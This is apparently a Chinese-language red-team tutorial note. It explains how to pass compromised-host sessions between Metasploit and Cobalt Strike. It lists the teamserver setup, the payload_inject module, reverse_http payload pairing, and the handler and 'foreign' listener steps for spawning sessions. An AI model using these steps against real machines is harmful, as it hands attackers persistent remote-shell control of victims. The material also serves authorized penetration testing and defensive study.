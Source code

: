 ## MSF与CS互传sessions会话

一、msf—>cs

- msf连接cs
  - 1.在队伍服务器上启动cs服务端
    - ./teamserver 团队服务器ip 连接密码
  - 2.cs客户端连接攻击机
    - 填团队服务器ip和密码，名字随便
- msf将session发往cs客户端
  - 1.cs设置监听
    - 监听器 - add
      - 选择payload类型和填攻击机ip，端口要对应payload类型
  - 2.进入payload注入模块
    - use exploit/windows/local/payload_inject
  - 3.设置参数
    - set disablepayloadhandler 1
      - 1开启
    - set payload 第一步选的payload类型
      - 后面的协议类型一致
        示例：
        设置的payload是windows/meterpreter/reverse_http
        cs选择的payload是windows/beacon_http/reverse_http
    - set lhost
      - msf本机ip
    - set lport
      - 与第一步对应
    - set session
      - 目标机的session id
  - 4.运行
    - run
      - cs即可收到session
    - exploit也可
      - -j 是隐藏到后台运行，jobs调出
      - -z 是连接后不进入终端



二、cs—>msf

- cs将shell转发给另一msf

  最好用公网机器，内网机器要转发端口

  - 1.进入handle模块
  - 2.设置handle参数
    - set payload xxxxx
      - 全部要一致
    - set lhost
      - 本机
    - set lport
      - 任意一个，注意不要重复
  - 3.cs设置spwan
    - 1.add 新会话
    - 2.设置参数
      - msf所在对应的ip和端口
      - payload选foreign
    - 3.右键session，选择派生会话
      - 选择第二步设置的会话
  - 4.exploit 运行
    - 即可收到cs派生的session

<img src="C:\Users\gxc\Desktop\1899916-20200505225002407-512959716.png" alt="img" style="zoom: 200%;" />